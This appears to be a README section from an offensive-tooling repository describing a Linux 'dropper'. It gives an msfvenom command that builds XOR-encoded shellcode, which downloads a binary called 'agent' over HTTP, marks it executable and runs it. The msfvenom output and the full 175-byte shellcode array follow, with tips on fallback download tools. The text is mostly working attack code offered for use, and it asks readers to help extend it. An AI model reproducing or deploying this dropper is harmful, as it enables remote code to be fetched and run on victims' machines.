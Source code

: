 # dropper

## http download and exec

### msfvenom

you can use `linux/x64/exec` payload to generate a shellcode that executes `lwp-download`, `curl`, or `wget`, or even a `python` one liner

example:

```text
$ msfvenom -p linux/x64/exec CMD='lwp-download http://127.0.0.1/agent agent && chmod 755 agent && ./agent' PrependFork=true -e x64/xor -b '\0' -f raw -o agent_dropper.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Saved as: agent_dropper.bin

$ xxd -i agent_dropper.bin
unsigned char agent_dropper_bin[] = {
  0x48, 0x31, 0xc9, 0x48, 0x81, 0xe9, 0xef, 0xff, 0xff, 0xff, 0x48, 0x8d,
  0x05, 0xef, 0xff, 0xff, 0xff, 0x48, 0xbb, 0x57, 0xe4, 0x96, 0xab, 0x24,
  0x31, 0xeb, 0x5a, 0x48, 0x31, 0x58, 0x27, 0x48, 0x2d, 0xf8, 0xff, 0xff,
  0xff, 0xe2, 0xf4, 0x3d, 0xdd, 0xce, 0xa4, 0x21, 0x79, 0x6e, 0x9a, 0x23,
  0xec, 0xde, 0x9a, 0xdb, 0x5b, 0xd7, 0x02, 0x58, 0xe1, 0xfc, 0x90, 0x7c,
  0xa8, 0xa3, 0xe1, 0x78, 0x86, 0xff, 0xc5, 0x0b, 0x42, 0x83, 0x5a, 0x04,
  0xac, 0x1f, 0x4c, 0x4c, 0x1c, 0x88, 0x5a, 0x57, 0xac, 0x1f, 0x4d, 0x76,
  0xd9, 0xa3, 0x5a, 0x57, 0xe4, 0xfa, 0xdc, 0x54, 0x1c, 0x8f, 0x35, 0x20,
  0x8a, 0xfa, 0xc4, 0x45, 0x55, 0xcb, 0x32, 0x23, 0x90, 0xe6, 0x91, 0x0b,
  0x1e, 0xda, 0x68, 0x60, 0xca, 0xa6, 0x85, 0x14, 0x1f, 0xda, 0x75, 0x36,
  0x83, 0xf3, 0xc5, 0x50, 0x11, 0x8a, 0x3d, 0x32, 0x8a, 0xe2, 0x8b, 0x02,
  0x17, 0xcb, 0x39, 0x3f, 0x89, 0xf9, 0xcf, 0x04, 0x06, 0xde, 0x6f, 0x77,
  0x85, 0xf1, 0xce, 0x4a, 0x45, 0xcb, 0x7c, 0x71, 0xc4, 0xb8, 0x84, 0x45,
  0x56, 0x8e, 0x34, 0x23, 0xe4, 0xc0, 0xfc, 0x6c, 0xb8, 0x0d, 0x55, 0x52,
  0xe4, 0x96, 0xab, 0x24, 0x31, 0xeb, 0x5a
};
unsigned int agent_dropper_bin_len = 175;
```

normally `lwp-download` is installed in every linux distribution, if not, try `python`

### custom shellcode

i plan to write a shellcode that implements HTTP download within itself

still learning, please submit a pull request if you want to help

## thanks

- [ikotler](https://github.com/ikotler/shellcode)

